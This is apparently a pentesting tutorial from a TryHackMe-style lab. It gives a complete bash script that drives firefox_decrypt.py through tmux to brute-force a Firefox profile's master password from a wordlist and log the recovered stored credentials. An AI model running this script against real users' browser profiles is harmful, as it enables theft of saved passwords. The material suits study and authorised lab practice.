 # Bruteforce with TMUX

## Theory

In some occasions, we will find cases where we need to use brute force in some scripts, but they lack this function. There are several ways to implement code in that script but it is usually difficult (especially if we are talking about very large scripts and if time is an important factor). An alternative to this is to use tmux commands to simulate a brute force along with a script. In this case, we will see an example with a Python script to extract Firefox credentials, called firefox\_decrypt.py.&#x20;

Since this script does not have a brute force option, we use tmux and bash commands to accomplish this action.

## Practice

### Requirements

* Have the script (firefox\_decrypt.py), the wordlist.txt and the .mozilla folder in the same directory.
* Specify the directory where these files are located in the script.
* Change the profile number to be used.

```bash
#!/bin/bash

# Ctrl+C
trap ctrl_c INT

function ctrl_c(){
        echo -e "\n[!] Exiting...\n"
  echo -e "[!] Don't forget to delete the session created with tmux named $sess_name..."
  exit 0
}

# Variables:
sess_name="bruteForce" # Name of the new tmux session.
profile_num=2 # Profile number to be used.
t=0.3 # Delay between each command.

# Create new tmux session:
tmux new -d -s $sess_name
# Change directory:
tmux send-keys -t $sess_name "cd /home/leviswings/TryHackMe/Chronicle/content/firefox_decrypt" Enter
sleep $t
# Wordlist for bruteforce:
lines_file=$(cat wordlist.txt | wc -l)

# Bruteforce:
for word in $(cat wordlist.txt); do
  tmux send-keys -t $sess_name "echo \"[*] Pass: $word\" >> results.txt" Enter ; sleep $t
  tmux send-keys -t $sess_name "python3 firefox_decrypt.py .mozilla/firefox >> results.txt" Enter ; sleep $t
  tmux send-keys -t $sess_name $profile_num Enter ; sleep $t
  tmux send-keys -t $sess_name "$word" Enter ; sleep $t
done
```

While running this script, you can detach from your current tmux session and join the "bruteForce" session. The results will be saved in the `results.txt` file but the errors will not. You will see all the words used and, if there was a valid password, you will see the credentials in that file.
